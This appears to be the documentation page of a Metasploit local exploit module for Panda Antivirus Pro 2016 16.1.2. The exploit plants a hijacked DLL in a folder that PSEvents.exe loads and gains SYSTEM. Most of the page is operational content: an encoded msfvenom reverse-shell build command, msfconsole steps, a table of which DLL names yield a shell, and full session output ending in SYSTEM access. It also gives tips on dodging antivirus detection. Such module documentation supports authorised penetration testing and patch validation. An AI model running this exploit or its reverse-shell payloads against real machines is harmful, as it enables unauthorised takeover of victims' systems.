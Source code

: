 ## Vulnerable Application

  Panda Antivirus Pro 2016 16.1.2 is available from [filehippo](http://filehippo.com/download_panda_antivirus_pro_2017/download/b436969174c5ca07a27a0aedf6456c89/) or from an unofficial [git](https://github.com/h00die/MSF-Testing-Scripts/blob/master/Panda_AV_Pro2016_16.1.2.exe).

  The AV must be running for PSEvents.exe to run and the module to get called, which can take up to an hour.  I 32bit meterpreter seems to get caught, so you may need an AV exclusion for the folder to ensure it didn't catch meterpreter in action.

  The downloads folder can take a 10-15 minutes to appear after install, and its downloaded by Panda AV from the company.

  1. Theres an HTTP GET request to 23.215.132.154 for /retail/psprofiler/40032/psprofiler_suite.exe
  2. Then right after HTTP GET request to 23.215.132.154 for /retail/psevents_suite.exe.

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Wait for `C:\\ProgramData\\Panda Security\\Panda Devices Agent\\Downloads` folder to appear
  3. Start msfconsole
  4. Get a shell
  5. Do: `use exploit/windows/local/panda_psevents`
  6. Do: `set session #`
  7. Do: `exploit`
  8. Go do something else while you wait
  9. Enjoy being system with your shell

## Options

  **DLL**

  Which DLL to name our payload.  The original vulnerability writeup utilized bcryptPrimitives.dll, and mentioned several others that could be used.  However the dll seems to be VERY picky.  Default is cryptnet.dll.  See the chart for more details.
  
  |                                           | WINHTTP.dll | VERSION.dll | bcryptPrimitives.dll | CRYPTBASE.dll | cryptnet.dll | WININET.dll |
  |---------------------------------------------------------------|-------------|-------------|----------------------|---------------|--------------|-------------|
  | 64bit target (1), win10 x64 | CRASH | CRASH | NO |  NO       | valid     |    no |
  | 64bit target (1), win8.1 x86 | CRASH | CRASH | NO |  valid     | valid     |    no |
  | 32bit target (0), win10 x64 | CRASH | CRASH | NO | NO        | valid     |    no |
  | 32bit target (0), win8.1 x86 | CRASH | CRASH | NO |  valid     | valid (caught by av)     |    no |
  | 32bit target (0), win7sp1 x86 |  |  | valid |       | valid (caught by av)     |     |

  In this chart, `CRASH` means PSEvents.exe crashed on the system.  `NO` means PSEvents didn't crash, but no session was obtained.  `valid` means we got a shell.
  
  **ListenerTimeout**
  
  How long to wait for a shell.  PSEvents.exe runs every hour or so, so the default is 3610 (10sec to account for code execution or other things)

## Scenarios

### Windows 8.1 x86 with Panda Antirivus Pro 2016 16.1.2

  Step 1, get a local shell.  I used msfvenom to drop an exe for easy user level meterpreter.
  
    msfvenom -a x86 --platform windows -p windows/meterpreter_reverse_tcp -f exe -o meterpreter.exe -e x86/shikata_ga_nai -i 1 LHOST=192.168.2.117 LPORT=4449
    
    msf > use exploit/multi/handler 
    msf exploit(handler) > set payload windows/meterpreter_reverse_tcp 
    payload => windows/meterpreter_reverse_tcp
    msf exploit(handler) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(handler) > set lport 4449
    lport => 4449
    msf exploit(handler) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4449 
    [*] Starting the payload handler...
    [*] Meterpreter session 1 opened (192.168.2.117:4449 -> 192.168.2.91:63617) at 2016-09-25 20:32:15 -0400
    
    meterpreter > getuid
    Server username: IE11Win8_1\IEUser
    meterpreter > background
    [*] Backgrounding session 1...

  Step 2, drop our panda exploit

    use exploit/windows/local/panda_psevents
    msf exploit(panda_psevents) > set session 1
    session => 1
    msf exploit(panda_psevents) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(panda_psevents) > set exitfunc seh
    exitfunc => seh
    msf exploit(panda_psevents) > set DLL CRYPTBASE.dll
    DLL => CRYPTBASE.dll
    msf exploit(panda_psevents) > show options
    
    Module options (exploit/windows/local/panda_psevents):
    
       Name             Current Setting  Required  Description
       ----             ---------------  --------  -----------
       DLL              CRYPTBASE.dll    yes       dll to create (Accepted: cryptnet.dll, bcryptPrimitives.dll, CRYPTBASE.dll)
       ListenerTimeout  3610             yes       Number of seconds to wait for the exploit
       SESSION          1                yes       The session to run this module on.
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  seh              yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.2.117    yes       The listen address
       LPORT     4450             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows x86
    
    
    
    msf exploit(panda_psevents) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4450 
    [*] Uploading the Payload DLL to the filesystem...
    [*] Starting the payload handler, waiting for PSEvents.exe to process folder (up to an hour)...
    [*] Start Time: 2016-09-27 18:10:21 -0400
    [*] Sending stage (957999 bytes) to 192.168.2.91
    [*] Meterpreter session 2 opened (192.168.2.117:4450 -> 192.168.2.91:50022) at 2016-09-27 18:46:15 -0400
    [+] Deleted C:\ProgramData\Panda Security\Panda Devices Agent\Downloads\1a2d7253f106c617b45f675e9be08171\CRYPTBASE.dll
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > sysinfo
    Computer        : IE11WIN8_1
    OS              : Windows 8.1 (Build 9600).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/win32
    meterpreter > background

## Failed Exploitation Attempts

If the dll doesn't work, PSEvents.exe will fail to run.  While silent to the user, an error will occur in the Application Windows Logs.

 * Event ID: 1000
 * Task Category (100)
 * Log Name: Application
 * Source: Application Error
 * Details:
```
Faulting application name: PSEvents.exe, version: 4.0.0.35, time stamp: 0x57061ba6
Faulting module name: ntdll.dll, version: 6.3.9600.17415, time stamp: 0x54504b06
Exception code: 0xc0000374
Fault offset: 0x000d0cf2
Faulting process id: 0xdd0
Faulting application start time: 0x01d218a30fbf1ac5
Faulting application path: C:\ProgramData\Panda Security\Panda Devices Agent\Downloads\1a2d7253f106c617b45f675e9be08171\PSEvents.exe
Faulting module path: C:\Windows\SYSTEM32\ntdll.dll
Report Id: 4de7a07e-8496-11e6-9735-000c29e0cffb
Faulting package full name: 
Faulting package-relative application ID:
```